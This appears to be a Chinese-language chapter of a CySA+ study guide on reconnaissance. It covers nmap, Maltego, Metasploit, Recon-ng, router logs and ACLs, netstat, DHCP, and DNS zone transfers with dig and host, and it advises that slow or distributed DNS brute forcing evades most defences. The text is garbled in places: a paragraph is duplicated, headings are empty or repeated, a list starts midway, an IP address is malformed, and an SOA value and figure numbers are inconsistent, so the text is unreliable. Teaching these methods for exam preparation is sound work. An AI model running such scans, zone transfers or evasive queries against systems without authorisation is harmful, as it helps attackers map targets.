

**FIGURE 5.3** Nmap 服务和版本检测

### 常用工具


CySA+ 考试目标列出了你需要在考试中熟悉的若干工具。这些包括端口扫描器、开源情报（OSINT）收集和管理工具，以及 `Metasploit` 框架，后者除了是安全专业人员最流行的通用漏洞利用工具包外，还包含许多许多其他工具。

## nmap

`nmap` 是一种免费开源的网络发现和安全审计工具。它用于网络发现、端口扫描和操作系统检测。它被网络管理员和安全专业人员广泛使用。

常用的 `nmap` 标记包括：

- `-sV`：服务版本检测。
- `-O`：操作系统检测。
- `-sS`：TCP SYN 扫描。
- `-sT`：TCP 连接扫描。
- `-A`：激进扫描。
- `-v`：详细输出。

示例命令：

```
nmap -sV -O <target_host>
```

CySA+ 考试大纲中特别提到的第三种网络扫描和映射工具是 `Maltego`。`Maltego` 是一个开源工具，专注于开源情报（OSINT）收集以及通过图形用户界面（GUI）将数据点连接在一起。`Maltego` 的 GUI 提供了一种理解和记录关联关系及层次结构的方法。它依赖 `transforms`（转换）的概念，即服务器执行的提供关于对象和实体的额外数据或处理的操作。图 5.6 显示了 `Maltego` 社区版提供的示例。该软件的企业版和专业版提供了更多功能。



图 5.6 Maltego 社区版

## Metasploit

`Metasploit Framework`（`MSF`）通常简称为 `Metasploit`，是一个提供商业版和开源版本的渗透测试框架。图 5.7 所示的开源版本使用命令行界面允许对漏洞进行发现和利用。在示例中，演示了 `Metasploit` 收集 SSH 服务器版本信息的能力。首先选择工具，然后设置目标，显示模块选项，最后运行工具。



图 5.7 Metasploit 框架

`Metasploit` 模块包含了广泛的功能，包括使用 `tcp`、`syn` 和其他扫描模块进行端口扫描的能力，以及使用名为 `wmap` 的模块进行 Web 漏洞扫描的能力。可以在 `https://docs.metasploit.com` 找到详尽文档，但 `www.offensive-security.com/metasploit-unleashed` 等网站提供了关于如何使用 `Metasploit` 的极佳教程。虽然 CySA+ 考试大纲侧重于资产发现和漏洞管理，但 `Metasploit` 作为渗透测试工具被应用得更为广泛。

## Recon-ng

`Recon-ng` 是一个模块侦测工具。与 `Metasploit` 类似，它使用命令行界面，具备搜索、模块选择和安装功能，允许你根据需求配置和使用它。它内置于 `Kali Linux` 中，便于进行练习和探索。它使用模块市场，通过 `marketplace search` 命令进行搜索，诸如 `hackertarget` 等工具可以帮助收集开源情报（OSINT）以识别目标。与 `Shodan`（一种开源情报搜索引擎）等服务的集成也可以提供额外的开源情报，而像 `nmap` 模块这样的主动搜索模块可用于主动信息收集。

图 5.8 显示了使用 `hackertarget` 作为域名和主机识别搜索工具收集信息的示例。搜索返回了 500 个主机名和 IP 地址，全部属于 `Wiley.com` 的域名。



图 5.8 Recon-ng 对 Wiley.com 相关域名进行搜索

除了这三个扫描器外，许多工具专注于情报收集、漏洞管理和端口扫描，例如 `Metasploit`、`Qualys`、`OpenVAS` 以及 Tenable 的 `Nessus`。

## 被动发现

被动发现比主动发现要有挑战性得多。尽管如此，你仍然可以使用现有数据识别系统和网络，而无需执行主动探测。

## 日志与配置分析

日志文件可以提供丰富的信息。在接下来的几页中，我们将介绍这些类型数据的工作原理。

### 网络设备

网络设备会记录其活动、状态和事件。网络信息包括端口和流。

#### 网络设备日志

默认情况下，许多网络设备会将消息记录到控制台上，这意味着只有登录控制台的用户才能看到它们。幸运的是，大多数托管网络会通过 `syslog` 将网络日志发送到中央服务器。许多网络设备还利用简单网络管理协议（`SNMP`）发送设备信息。

网络设备日志通常关联有一个日志级别。虽然日志级别的定义各不同，但许多与 Cisco 的级别相似，如表 5.1 所示。

表 5.1 Cisco 日志级别

| 级别 | 级别名称 | 示例 |
| --- | --- | --- |
| 0 | 紧急 | 故障导致关机 |
| 1 | 警报 | 温度超过限制 |
| 2 | 严重 | 软件故障 |
| 3 | 错误 | 接口下降消息 |
| 4 | 警告 | 配置更改 |
| 5 | 通知 | 链路协议启用/禁用 |
| 6 | 信息 | ACL 违规 |
| 7 | 调试 | 调试消息 |

当你专注于情报收集时，网络设备日志通常不如设备配置有用，尽管它们可以为拓扑提供一些帮助。在渗透测试或执行安全运维期间，网络设备日志可以提供攻击的有用警告，或揭示配置和系统问题。

图 5.9 所示的 Cisco 路由器日志通过 `show logging` 命令访问，并可以使用 IP 地址、列表编号或其他许多变量进行过滤。在这里，我们看到一系列来自远程主机 `10.0.2.50` 的被拒绝数据包。该远程主机正尝试通过不断增加的 TCP 端口连接目标系统，这可能表明正在进行端口扫描，并被访问列表 `210` 中的规则拦截。



图 5.9 Cisco 路由器日志

## 网络配置

在绘制网络拓扑时，设备的配置文件非常有价值。配置文件通常包含网络、路由、设备交互的系统以及其他网络细节。此外，它们还可以提供有关 `syslog` 和 `SNMP` 服务器、管理员和用户账户信息以及其他作为情报收集部分有用配置项的细节。

图 5.10 显示了典型 Cisco 路由器的 `SNMP` 配置部分。读取整个文件可以查看路由信息、接口信息以及帮助你将路由器置于网络拓扑结构中的详细信息。所显示的章节提供了关于 `SNMP` 社区字符串（community strings）、设备联系人，以及启用了哪些陷阱（traps）及其发送发送位置的详细信息。此外，你可以看到该组织使用终端访问控制器访问控制系统（TACACS）来控制其服务器以及这些服务器的 IP 地址。对于安全分析师来说，这些都是有用的信息——对于攻击者来说，这可能是一次有效社会工程攻击的开始！



图 5.10 典型 Cisco 路由器的 SNMP 配置

## 流（Flows）

`Netflow` 是一种 Cisco 网络协议，用于收集 IP 流量信息，从而实现网络流量监控。流数据用于提供流量流和容量的视图。典型的流捕获包括流量的源和目的 IP、端口以及服务类别（class of service）。`Netflow` 和 `Netflow` 分析器有助于识别服务问题并建立典型网络行为基准，在识别异常行为方面也有用。

## Netstat

除了网络日志文件外，还可以使用 Windows、Linux、macOS 以及大多数 Unix 和类 Unix 操作系统中的 `netstat` 收集本地主机的网络信息。`netstat` 提供了丰富的信息，其功能在不同操作系统之间略有不同。它可以提供如下信息：

- 活跃的 TCP 和 UDP 连接，按每种主要协议进行过滤：TCP、UDP、ICMP、IP、IPv6 等等。图 5.11 显示了 `netstat -ta` 的 Linux `netstat` 输出，显示了活跃的 TCP 连接。这里开启了一个指向远程主机的 SSH 会话。`-u` 标志对 UDP 起相同作用；`-w` 显示 RAW，`-X` 显示 Unix socket 连接。

  

  图 5.11 Linux `netstat -ta` 输出

- 哪个可执行文件创建了连接，或其进程 ID（PID）。图 5.12 显示了使用 `-o` 标志识别进程号的 Windows `netstat` 调用，可以使用 Windows 任务管理器引用。

  

  图 5.12 Windows `netstat -o` 输出

- 以太网统计，显示发送和接收了多少字节和数据包。图 5.13 中，在 Windows 系统上带有 `-e` 标志运行 `netstat`，提供接口统计。这跟踪了发送和接收的字节数，以及错误、丢弃和通过未知协议发送的流量。

  

  图 5.13 Windows `netstat -e` 输出

- 路由表信息，包括 IPv4 和 IPv6 信息，如图 5.14 所示。这是使用 `-nr` 标志检索的，并根据操作系统包含各种信息，显示目标网络、网关、路由关联接口以及用于捕捉链路速度以建立优先级的跃值（metric）。

  

  图 5.14 Windows `netstat -nr` 输出意味着从系统运行 `netstat` 可以提供有关该机器网络以及本地网络状况的信息。了解系统拥有哪些机器或正在与哪些机器通信可以帮助你理解拓扑和服务。最好的是，由于 `netstat` 在许多操作系统上默认可用，因此假设它存在且你可以使用它来收集信息是合理的。

## DHCP 日志和服务器配置

动态主机配置协议（DHCP）是一种客户端/服务器协议，为主机将所在的网络段提供 IP 地址以及默认网关和子网掩码。当你进行侦察时，来自网络 DHCP 服务器的 DHCP 日志可以提供一种快速识别网络上许多主机的方法。如果你将 DHCP 日志与其他日志（如防火墙日志）结合，就可以确定哪些主机被提供了动态 IP 地址，哪些主机使用静态 IP 地址。如图 5.15 所示，Linux `dhcpd.conf` 文件提供了有关主机及其所访问的网络的信息。



图 5.15 Linux `dhcpd.conf` 文件

在此示例中，DHCP 服务器的 DHCP 日志提供了一种快速识别网络上许多主机的方法。如果你将 DHCP 日志与其他日志（如防火墙日志）结合，就可以确定哪些主机被提供了动态 IP 地址，哪些主机使用静态 IP 地址。如图 5.15 所示，Linux `dhcpd.conf` 文件提供了有关主机及其所访问的网络的信息。

组织使用各种防火墙，包括来自 Cisco、Palo Alto 和 Check Point 的设备，这意味着你可能会遇到多种格式的日志。幸运的是，这三者都有共同特征。每种设备都提供了日期/时间戳以及事件详情，其格式旨在易于理解。例如，可以使用控制台上的 `show logging` 命令（通常输入为 `show log`）访问 Cisco ASA 防火墙日志。条目具有良好的可读性，列出了日期、时间、系统以及采取的操作。例如，一条日志可能如下：

```
Sep 13 10:05:11 10.0.0.1 %ASA-5-111008: User 'ASAadmin' executed the 'enable' command
```

此命令表示用户 `ASAadmin` 运行了 Cisco 的 `enable` 命令，该命令通常用于进入设备的特权模式。如果 `ASAadmin` 不应该使用管理权限，这将在你的调查中成为一个立即的警示信号。

也可以手动对路由器/防火墙 ACL 进行审查。这里显示了示例 Cisco 路由器 ACL 的部分：

```
ip access-list extended inb-lan
 permit tcp 10.0.0.0 0.255.255.255 any eq 22
 permit tcp 172.16.0.0 0.15.255.255 any eq 22
 permit tcp host 192.168.2.1 any eq 22
 deny tcp 8.16.0.0 0.15.255.255 any eq 22
```

此 ACL 段命名了访问控制列表，然后设置了一系列被允许的操作以及允许执行这些操作的网络。这组规则专门允许 `10.0.0.0` 网络中的所有地址使用 TCP 端口 `22` 发送流量，从而允许了 SSH。`172.16.0.0` 网络被允许相同的访问权限，IP 地址为 `192.168.2.1` 的主机也是如此。最后的拒绝（deny）规则将防止指定的网络范围发送 SSH 流量。

如果你在考试中遇到防火墙或路由器配置文件、日志文件或规则，将它们重写成你更容易读懂的语言可能会有所帮助。为了做到这一点，从操作或命令开始；然后找到受影响的目标、用户或其他事物。最后，找到任何指定将发生什么或发生了什么的修饰。在之前的路由器配置中，你可以将 `permit tcp 10.0.0.0 0.255.255.255 any eq 22` 写为“允许来自 `10.0.0.0` 网络的任何源端口到目的端口 22 的 TCP 流量”。即使你不熟悉特定的配置或命令，这也能帮助你理解你将遇到的许多条目。

## 系统日志文件

大多数系统都会收集系统日志以提供故障排除和其他系统信息。日志信息的差异很大取决于操作系统、其配置方式以及系统运行的服务和应用程序。

日志文件可以提供有关系统如何配置、系统上运行着哪些应用程序、系统中存在哪些用户账户以及其他细节，但它们通常不是侦察列表的首选。如果可以访问，它们会被收集，但大多数日志文件存储在安全位置，如果没有系统管理访问权限是无法访问的。

## 从 DNS 和 Whois 获取数据

域名系统（DNS）通常是收集组织信息时的首要站点之一。DNS 信息不仅是公开可用的，而且通过简单检查其网站的 Whois 信息通常就能轻松连接到该组织。有了这些信息，你可以找到其他网站和主机并添加到你的组织足迹中。

## DNS 和 Traceroute 信息

DNS 将像 `google.com` 的域名转换为 IP 地址（如图 5.16 所示）或从 IP 地址转换为人类可理解的域名。在 Windows、Linux 和 macOS 系统上执行此操作命令是 `nslookup`。



图 5.16 `google.com` 的 nslookup

一旦你获得了 IP 地址，就可以找到其他网站和主机并添加到你的组织足迹中。`traceroute` 命令可以显示数据包到达目的地经过的路径。在 Windows 上，命令是 `tracert`，而在 Linux 和 macOS 上，它是 `traceroute`。

可以使用 `nslookup` 查询其他类型的 DNS 记录。例如，要查找域的 `MX` 记录，你会使用：

```
nslookup -type=mx google.com
```

- 亚太网络信息中心（APNIC）：负责亚洲、澳大利亚、新西兰以及该地区的其他国家。
- 拉丁美洲和加勒比地区网络信息中心（LACNIC）：负责拉丁美洲及未被 ARIN 覆盖的加勒比地区部分。
- 欧洲 IP 网络协调中心（RIPE NCC）：负责中亚、欧洲、中东和俄罗斯。

每个区域互联网注册机构（RIR）都提供 Whois 服务，用以识别其负责的 IP 空间所被分配的用户，以及其他有助于确保该地区互联网底层 IP 和 DNS 基础正常运行的服务。

## DNS 条目

除了使用 `nslookup` 提供的信息外，DNS 条目还可以通过主机名直接提供有关系统的有用信息。名为“AD4”的系统更有可能是基于活动目录（Active Directory）的漏洞利用和 Windows Server 特定扫描的目标；而反映特定应用程序或服务的主机名则可以提供目标信息，并为社会工程学和人员智能活动提供线索。

## DNS 发现

组织的外部 DNS 信息作为 Whois 信息的一部分提供，为基于 DNS 的信息收集提供了一个良好的起点。可以通过主动扫描、基于网络流量或日志的被动信息收集，甚至通过查看组织的文档来识别额外的 DNS 服务器。这可以通过端口扫描并搜索在 UDP 或 TCP 端口 `53` 上提供 DNS 服务的系统来实现。一旦你找到了 DNS 服务器，就可以使用 `dig` 或其他 DNS 查找命令对其进行查询，也可以测试它是否支持区域传输（zone transfers），这可以使获取组织 DNS 数据变得简单。

## 区域传输

收集组织信息的一种方法是执行区域传输。区域传输旨在在 DNS 服务器之间复制 DNS 数据库，如果目标的 DNS 服务器允许区域传输，那么它就将成为一种功能强大的信息收集工具。这意味着大多数 DNS 服务器被设置为禁止向其不受信任的 DNS 同等服务器进行区域传输，但安全分析师、渗透测试人员和攻击者仍然可能会检查区域传输是否可行。

要从命令行检查你的 DNS 服务器是否允许区域传输，可以使用 `host` 或 `dig`：

```
host –t axfr domain.name dns-server
dig axfr @dns-server domain.name
```


在允许区域传输的 DNS 服务器上运行此命令将得到一个大文件，其数据如下（来自 DigiNinja 的转储，DigiNinja 是一个允许安全从业人员练习区域传输的网站）：

```
; <<>> DiG 9.9.5-12.1-Debian <<>> axfr @nsztm1.digi.ninja zonetransfer.me
; (1 server found)
;; global options: +cmd
zonetransfer.me.     7200     IN     SOA     nsztm1.digi.ninja.
robin.digi.ninja. 2014101603 172800 900 1209600 3600
zonetransfer.me.     7200     IN     RRSIG     SOA 8 2 7200 20160330133700
20160229123700 44244 zonetransfer.me. GzQojkYAP8zuTO9UAx6mTDiEG26hVI2
ifk2DpbQLrEAPgM77i0yFWHpnMJIuu8nMQgFVC3yTOe/EMb98FYwEZeWHtbMs88jJlF+cOzWarjdy0+UJ4dGtriC52EXKkw2kv3tdKKVaBE
zonetransfer.me.     7200     IN     NS     nsztm1.digi.ninja.
zonetransfer.me.     7200     IN     NS     nsztm2.digi.ninja.
zonetransfer.me.     7200     IN     RRSIG     NS 8 2 7200 20160330133700
20160229123700 44244 zonetransfer.me. TyFngBkPMWxgc6tgRh0kqeWYSBxFxezupFLeiDhVXo+SZP54vwfk7ClNZ9lRNkHyxRElhlH1JI1hjvod0fycqCnx8UCkm2Mxr8OcGf2jNDUcDO5XjOX9tRbVVKIp92f4Qalw
zonetransfer.me.     7200     IN     A     147.77.157
```

该传输从起始权威记录（SOA）记录开始，该记录列出了主名称服务器；其联系人 `robin.digi.ninja`（应读作 `robin@digi.ninja`）以及该域名的当前序列号 `2014101603`。它还提供了二级名称服务器在更改之间应等待的时间：`172800` 秒；主名称服务器在刷新失败时应等待的时间：`900` 秒；二级服务器声称拥有权威信息的秒数：`209600` 秒；记录的过期时间（两周）；以及该域名的最小 TTL：`3600` 秒。该域名的两个主名称服务器也都被列出——`nsztm1` 和 `nsztm2`。

## DNS 发现

## 区域传输

## DNS 暴力破解

如果区域传输不可用，仍然可以通过暴力破解从公共 DNS 获取信息。对组织使用的每个 IP 地址发送查询可以获取许多有用的信息。通过以较慢的速率或从多个系统发送查询可以绕过大多数防御措施。

## Whois

Whois 如前所述，允许根据注册信息查询关于组织或个人的信息。在图 19 所示的示例 Whois 查询中，你可以看到关于 Google 的信息，例如总部位置、联系方式和主名称服务器。这些信息可以为信息收集过程提供额外的线索。

其他信息可以通过在 Linux 中使用 `host` 命令来获取的。该命令将提供有关系统的 IPv4 和 IPv6 地址以及邮件服务器的信息，如图 20 所示。

在图 5.21 中，你可以看到 `nmap` 扫描期间过滤后的数据包获数据。使用数据包获可以让你深入研究特定的响应，或验证你确实在特定时间测试了特定的主机。因此，数据包获既可以作为分析工具，也可以作为任务完成的证明。

